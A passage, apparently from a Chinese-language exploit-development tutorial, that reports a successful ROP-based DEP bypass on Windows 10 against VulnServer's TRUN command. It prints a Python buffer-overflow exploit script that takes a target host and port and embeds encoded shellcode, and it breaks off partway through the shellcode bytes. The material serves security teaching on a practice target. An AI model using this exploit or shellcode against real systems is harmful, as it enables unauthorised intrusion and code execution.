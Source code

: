 ![4](ROP_bypass_DEP_2/4.png)

我们做到了！我们在 Windows 10 上绕过了 DEP，我们现在需要做的就是添加一个 NOP 雪橇以确保安全。

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

shellcode =  b""
shellcode += b"\xba\x80\x08\x48\x4a\xd9\xc6\xd9\x74\x24\xf4\x5d\x33"
shellcode += b"\xc9\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\xd5\x06\xaa"
shellcode += b"\xbf\x29\xfe\xa8\x40\xd1\xff\xcc\xc9\x34\xce\xcc\xae"
shellcode += b"\x3d\x61\xfd\xa5\x13\x8e\x76\xeb\x87\x05\xfa\x24\xa8"
shellcode += b"\xae\xb1\x12\x87\x2f\xe9\x67\x86\xb3\xf0\xbb\x68\x8d"
shellcode += b"\x3a\xce\x69\xca\x27\x23\x3b\x83\x2c\x96\xab\xa0\x79"
shellcode += b"\x2b\x40\xfa\x6c\x2b\xb5\x4b\x8e\x1a\x68\xc7\xc9\xbc"
shellcode += b"\x8b\x04\x62\xf5\x93\x49\x4f\x4f\x28\xb9\x3b\x4e\xf8"
shellcode += b"\xf3\xc4\xfd\xc5\x3b\x37\xff\x02\xfb\xa8\x8a\x7a\xff"
shellcode += b"\x55\x8d\xb9\x7d\x82\x18\x59\x25\x41\xba\x85\xd7\x86"
shellcode += b"\x5d\x4e\xdb\x63\x29\x08\xf8\x72\xfe\x23\x04\xfe\x01"
shellcode += b"\xe3\x8c\x44\x26\x27\xd4\x1f\x47\x7e\xb0\xce\x78\x60"
shellcode += b"\x1b\xae\xdc\xeb\xb6\xbb\x6c\xb6\xde\x08\x5d\x48\x1f"
shellcode += b"\x07\xd6\x3b\x2d\x88\x4c\xd3\x1d\x41\x4b\x24\x61\x78"
```